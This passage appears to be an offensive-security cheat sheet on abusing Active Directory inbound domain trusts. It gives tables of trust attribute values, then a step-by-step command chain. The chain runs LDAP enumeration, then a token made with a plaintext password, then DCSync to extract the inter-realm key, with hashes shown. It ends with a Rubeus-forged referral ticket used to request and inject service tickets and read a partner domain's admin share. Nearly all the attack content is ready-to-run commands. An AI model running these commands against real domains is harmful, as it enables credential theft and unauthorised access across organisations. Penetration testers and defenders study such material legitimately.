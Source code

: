 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | trustAttributes                      |
| ----- | ------------------------------------ |
| 1     | `TRUST_ATTRIBUTE_NON_TRANSITIVE`     |
| 4     | `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN` |
| 8     | `TRUST_ATTRIBUTE_FOREST_TRANSITIVE`  |
| 32    | `TRUST_ATTRIBUTE_WITHIN_FOREST`      |
| 64    | `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL`  |

##### Inbound Trust Abuse

Enumerate the one-way trust
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
```

Enumerate the Foreign Security Principals Container.
```powershell
ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com
```

Enumerate interesting SID
```powershell
ldapsearch (objectSid=[SID])

ldapsearch (objectSid=S-1-5-21-3926355307-1661546229-813047887-6102)
```

Perform DCSync to obtain inter-realm key.
```powershell
make_token CONTOSO\dyork Passw0rd!
dcsync contoso.com CONTOSO\PARTNER$
rev2self

7dd5eff4dfa069406ade61cbf61f1f0b39049781179d89c7cef0eb57200526a3
77057e264522cbf4db45d6733b9167dc
```

Forge a referral ticket offline or online using the `/ldap` flag
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /ldap /nowrap
```

Use forged inter-realm ticket to request service tickets for the trusting domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /nowrap /ticket: 
```

Inject ticket into current session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
ls \\par-jmp-1.partner.com\c$
```

